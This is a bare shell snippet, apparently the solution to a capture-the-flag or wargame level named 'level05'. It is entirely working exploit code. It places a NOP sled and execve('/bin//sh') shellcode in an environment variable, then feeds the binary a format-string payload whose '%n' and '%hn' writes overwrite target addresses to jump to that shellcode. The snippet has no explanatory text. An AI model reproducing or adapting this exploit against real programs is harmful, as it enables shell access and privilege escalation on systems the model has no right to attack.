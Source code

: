 export SCRIPT=$(python -c "print '\x90'*80 + '\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1'")
(python -c "print '\xe0\x97\x04\x08' + '\xe1\x97\x04\x08' + '\xe2\x97\x04\x08' + '\xe3\x97\x04\x08' + '%x '*8 + '%55477x' + '%n' + '%75519x' + '%hn'"; cat) | ./level05